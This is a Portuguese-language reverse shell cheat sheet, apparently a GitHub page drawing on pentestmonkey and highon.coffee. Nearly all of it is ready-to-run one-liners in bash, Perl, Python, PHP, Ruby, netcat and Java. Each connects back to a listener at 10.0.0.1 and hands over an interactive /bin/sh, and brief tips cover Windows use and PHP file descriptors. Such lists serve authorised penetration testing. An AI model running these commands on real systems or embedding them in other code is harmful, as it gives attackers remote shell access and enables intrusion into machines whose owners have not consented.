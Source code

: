 ## Reverse Shell Cheat Sheet

Os exemplos abaixo são para sistemas Linux, mas alguns podem ser testados em sistemas Windows alterando  “/bin/sh -i” por “cmd.exe”.

# Bash

Algumas versões do bash podem executar um  reverse shell (Ex: Ubuntu 10.10):

bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# PERL

perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

# Python 2.7

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

# PHP
Esta linha de comando utiliza “TCP connection file descriptor 3”. Caso não funcione , tente 4, 5, 6…

php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

# Ruby

ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

# Netcat

nc -e /bin/sh 10.0.0.1 1234

# Java

r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
[Untested submission from anonymous reader]

Fonte:

https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://highon.coffee/blog/reverse-shell-cheat-sheet

